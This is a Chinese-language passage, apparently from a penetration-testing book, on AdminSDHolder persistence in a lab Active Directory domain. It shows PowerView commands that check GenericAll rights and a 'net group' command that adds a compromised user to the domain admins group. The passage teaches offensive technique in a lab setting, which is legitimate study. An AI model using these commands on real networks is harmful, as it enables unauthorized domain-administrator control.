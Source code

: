 在 60 分钟后，我们可以看到我们的用户账户被添加到 AdminSDHolder DACL 中：

```
Get-DomainObjectAcl -Identity 'CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
Get-DomainObjectAcl -Identity 'Domain Admins' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
```

攻击过程如以下截图所示：

![图 7.12 – jaime.lannister 被添加到 AdminSDHolder 域对象的 DACL 中](img/B18964_07_12.jpg)

图 7.12 – jaime.lannister 被添加到 AdminSDHolder 域对象的 DACL 中

必要时，攻击者将以 `jaime.lannister` 身份登录，并将自己添加到 `domain** **admins` 组中：

```
net group "domain admins" jaime.lannister /add /domain
```

结果可以在以下截图中看到：

